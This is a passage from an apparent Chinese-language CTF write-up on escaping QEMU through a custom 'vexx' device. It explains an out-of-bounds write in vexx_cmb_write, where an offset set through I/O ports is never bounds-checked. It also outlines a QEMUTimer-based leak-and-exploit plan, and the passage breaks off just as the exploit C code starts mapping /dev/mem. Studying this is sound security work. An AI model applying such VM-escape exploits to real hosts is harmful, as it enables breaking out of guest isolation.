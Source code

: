 对MMIO区域和I/O端口涉及到的函数进行分析，在vexx_cmb_write函数中存在漏洞  
```
vexx_mmio_read以及vexx_mmio_write。这个结构对应的mmio地址是0xfebd6000，空间大小为0x1000。vexx_mmio_write里面addr为0x98可以触发dma_timer

```  
  
**vexx_cmb_write函数**  
  
在实例结构体中 req_buf 的大小为 0x100, 而 addr = offset + addr, 这里只检查了之前的 addr <= 0x100, 但是没有检查 offset+addr 是否越界, 而在 vexx_ioport_write 中是可以控制 offset 的, 从而导致越界写。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4w3J7mKlWejlrH3qgoT2iavSmN4l9rBrqKb1gAYzhsHSLwFeJkaaiaV6SpfTTnLKtvyIw8pgvjbtMA/640?wx_fmt=png&from=appmsg "")  
  
查看req.req_buf的定义  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4w3J7mKlWejlrH3qgoT2iavhsBADDsbm6cr7AlibDpOLTaNicXUfg3RoxwA3dzIW6sAdVvl18VC6D2Q/640?wx_fmt=png&from=appmsg "")  
  
如果paque->memorymode为1的时候，通过控制req.offset就可以实现对req.req_buf的越界  
  
看下设备实例结构体  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4w3J7mKlWejlrH3qgoT2iavDnLawBc2zB3N2uFEuhWxfvAACWAAZVkDtOWsV7K77OL1NvrHB1CTXg/640?wx_fmt=png&from=appmsg "")  
  
所以只要满足paque->memorymode为1，且对req.offset可控。很大概率能够逃逸  
  
在vexx_cmb_write函数中  
```
虽然限制param_2的大小在缓冲区的范围内,确保它不超过255字节（0x100），但param_2又被增加了一个偏移量，这个偏移量是一个由攻击者控制的值。通过查看与MMIO和端口I/O相关的其他函数，可以看到偏移量变量和memorymode值都可以通过写入特定的I/O端口来控制

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4w3J7mKlWejlrH3qgoT2iav6N4QeiaI1kzRqoaq6dbAO6NFzVvh3hOQjqEg3yPRreqpNO0FyUICPzw/640?wx_fmt=png&from=appmsg "")  
  
继续对I/O端口分析 ，vexx_ioport_read和vexx_ioport_write  
  
在vexx_ioport_write中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4w3J7mKlWejlrH3qgoT2iav5UXU38vwvBZjN7r1e8vkwhowGrLBjUkHWKtYhxy8IAktZVeWGodYqA/640?wx_fmt=png&from=appmsg "")  
  
通过vexx_ioport_write设置req.offset以及opaque->memorymode。利用vexx_cmb_write对req.req_buf进行越界写，通过QEMUTimer来实现泄漏与利用。（同样vexx_cmb_read存在越界读）  
  
漏洞利用  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <fcntl.h>
#include <sys/io.h>
#include <sys/mman.h>
 
uint64_t mmio_addr = 0x00000000febd6000;
uint64_t mmio_size = 0x1000;
uint64_t cmb_addr  = 0x00000000febd0000;
uint64_t cmb_size  = 0x4000;
 
void * mmio_base;
void * cmb_base;
uint64_t pmio_base = 0x230;
 
void mmio_init()
{
        int fd = open("/dev/mem", 2);
        mmio_base = mmap(0, mmio_size, PROT_READ|PROT_WRITE, MAP_SHARED, fd, mmio_addr);
        if (mmio_base < 0) puts("[X} mmio_init at mmio"), exit(EXIT_FAILURE);
```